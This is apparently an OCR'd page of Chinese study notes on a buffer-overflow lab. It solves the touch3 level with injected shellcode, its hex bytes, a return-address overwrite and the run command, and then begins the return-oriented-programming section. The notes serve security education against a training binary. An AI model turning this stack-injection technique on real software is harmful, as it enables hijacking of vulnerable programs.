 ```cpp
}
401908 mov %rdi, %rsi
40190b mov 0x202bd3(%rip), %edi
401911 call 40184c <hexmatch>
需要调用touch3 使参数值等于 cookie 
而cookie值是 %(0x202bd3+0x401911)
由于gdb无法正常使用，具体值只能参考别人的博客了
插入的代码如下

movq 0x5561dca8, %rdi
pushq 0x4018fa
retq

对上面三行代码的解释：
0x5561dca8:getbuf函数使用的栈空间之前八个字节的起始地址
赋值给rdi会改变touch3函数的参数 sval指针的值
随后会将cookie值放入指针指向的地址

pushq 0x4018fa
ret
这两条语句会使movq指令执行完毕之后跳转到0x4018fa处继续执行指令
也就是转而执行touch3函数

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
前两行是上面的三行汇编代码的十六进制表示，是注入的要执行的代码
第六行的作用是改变getbuf函数的返回地址
其返回到了栈空间，也就是我们注入的代码
movq 0x5561dca8, %rdi处

第七行的地址正是0x5561dca8 值是cookie的值
cookie的字符串值是 "0x59b997fa"
这在lab文件cookie.txt中有，但是好像没有信息明确指明它是用于此处的
此外用gdb应该也能查看cookie值(因为知道地址)但是我gdb用不了

将上面的十六进制数存为level3.txt然后
cat level3.txt | ./hex2raw | ./ctarget -q
```

# 面向返回的编程
先 objdump -d rtarget > rtarget.asm
生成可阅读的汇编代码

对rtarget使用代码注入攻击比对ctarget使用代码注入攻击难得多，因为它(rtarget)使用两种技术来阻止这种攻击
